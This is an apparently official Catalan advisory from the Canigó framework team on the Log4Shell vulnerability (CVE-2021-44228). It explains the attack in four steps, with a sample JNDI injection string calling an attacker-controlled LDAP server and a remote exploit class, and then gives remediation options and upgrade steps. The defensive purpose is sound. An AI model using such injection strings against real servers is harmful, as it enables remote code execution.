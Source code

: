 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.

Aquesta vulnerabilitat només afecta a les versions 2.x de Log4J i està corregida en la versió 2.16

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228/> \
* <https://nvd.nist.gov/vuln/detail/CVE-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \

## Com solucionar la vulnerabilitat a les aplicacions

* **Opció 1**) Substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

    - 1.1) Modificar el fitxer `pom.xml` - **opció recomanada** -, compilar i desplegar l'aplicació:
    > Sí el JDK és major o igual a `1.8`
```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```
    > Sí el JDK és igual a `1.7`
```xml
<properties>
<log4j2.version>2.12.2</log4j2.version>
</properties> 
```
    > De lo contrario, la opción de eliminar la clase maliciosa es válida
```sh
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

    - 1.2) Injectar la variable durant la construcció de l'aplicació, compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.16.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

* **Opció 2**) Configurar la variable `log4j2.formatMsgNoLookups` en temps d'execució.

    - 2.1) Injectar la variable (vàlid per a: 2.10 >= log4j <= 2.14.1) i desplegar l'aplicació:
```sh
mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
```

    - 2.2) Afegir una variable d'entorn (vàlid per a: 2.10 >= log4j <= 2.14.1) i desplegar l'aplicació. Veure: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/.
```sh
mvn clean package docker:build \
&& docker run -it --rm \
--net=host \
--name="log4jshell-local" \
--memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
--env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
canigo/app
```

* **Opció 3**) Modificar el patró de traces configurades al fitxer `log4j.xml` (vàlid per a: 2.7 >= log4j <= 2.14.1), compilar i desplegar l'aplicació. Veure: https://kb.vmware.com/s/article/87093.
```sh
## canviar:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
## per:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m{nolookups}%n" />
```
> S'ha de canviar el patró del missatge (m, msg, message) per a no permetre lookup: %m{nolookups}, %msg{nolookups} or %message{nolookups}


## Noves versions de Canigó 3.4 i 3.6

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.7 i 3.6.1 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.7 i 3.6.1](/noticies/2021-12-13-CAN-actualitzacio-canigo-3_4_7_3_6_1).

* Versió 1.6.8 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.7.
Podeu consultar: [Actualització archetype 1.6.8](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_6_8/).

* Versió 1.7.1 de l'archetype de Canigó i la versió 1.8.1 del plugin del eclipse per a generar projectes amb Canigó 3.6.1.
Podeu consultar: [Actualització archetype 1.7.1 i plugin Eclipse 1.8.1](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_7_1_plugin_eclipse_1_8_1/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.7 i 3.6.1. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.16.0 de log4j:

```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.16.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó al servei CAN del JIRA CSTD o enviant-nos un correu electrònic a la bústia del CS Canigó.
